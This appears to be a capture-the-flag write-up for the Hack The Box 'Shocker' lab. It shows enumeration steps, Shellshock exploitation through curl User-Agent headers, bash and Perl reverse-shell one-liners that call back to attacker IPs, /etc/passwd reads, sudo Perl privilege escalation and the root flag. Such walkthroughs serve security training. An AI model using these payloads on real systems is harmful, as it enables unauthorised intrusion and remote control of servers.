 Shocker HTB, IP 10.10.10.56

#Initial Enumeration

1.nmap -sC -sV 10.10.10.56


2../nmapAutomator.sh 10.10.10.56 All



3. Dirb/ Gobuster
 dirb http://10.10.10.56/cgi-bin -X .sh,.php,.cgi
 
  The cgi-bin directory is a directory stored on the server which compiles and executes (typically) perl and shell scripts, rather than store them as basic HTML docs and whatnot.
 
  
  
  I found a user.sh. We will try to exploit shellshock vulnerability on the server.
  CGI runs bash as their default request handler and this attack does not require any authentication that’s why most of the attack is taken place on CGI pages to exploit this vulnerability.

------------------------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1.Enumerating on port 80




Image enumeration
wget http://10.10.10.56/bug.jpg
exiftool bug.jpg


Nothing here!

#1 Exploit shellshock with curl
 
1.  curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh

2.  curl -H ‘User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.3/4488 0>&1’ http://10.10.10.56:80/cgi-bin/user.sh>>
 
 #2 Exploit shellshock with python script
 searchsploit shellshock
 
  We get a lot of results back but the one we’re interested in is 34900.py, an Apache mod_cgi script. Before we run it let’s verify it’s a legitimate script and the parameters we need to include by reading it on the exploit db. Since it looks good let’s go ahead and copy the exploit into our root folder and try to execute it.
 
 
 python Desktop/cgi.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=1337 pages=/cgi-bin/user.sh
 


Notes:
Kill process in case of sockets in use


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sudo netstat -nlp | grep 8069
ps -aux
tcp        0      0 0.0.0.0:8069            0.0.0.0:*               LISTEN      10869/python2    
sudo kill -9 10869
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 
 
interactive shell 
python3 -c 'import pty; pty.spawn("/bin/bash")'
 
 In case that I wont be able to get an interactive shell I could get a reverse shell in order to be more stable.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ bash -i >& /dev/tcp/10.10.14.15/8888 0>&1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Attacker:
nc -lvp 8888


----------------------------------------------------------------------------------------------------------------------------------------------
Privilege escalation
 sudo -l
 
 


1. GTFobins Perl
Linux for Perl resource:https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'exec "/bin/sh";'
 perl -e 'exec "tail /etc/passwd";'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


 
 cat root/root.txt
 
 
2. Perl Reverse shell - one -Liner

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 $ sudo perl -e 'use Socket;$i="10.10.14.15";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 or

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 perl -e 'use Socket;$i="192.168.29.157";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Attacker:
nc -lvp 1234

 root flag
 52c2715605d70c7619030560dc1ca467
 
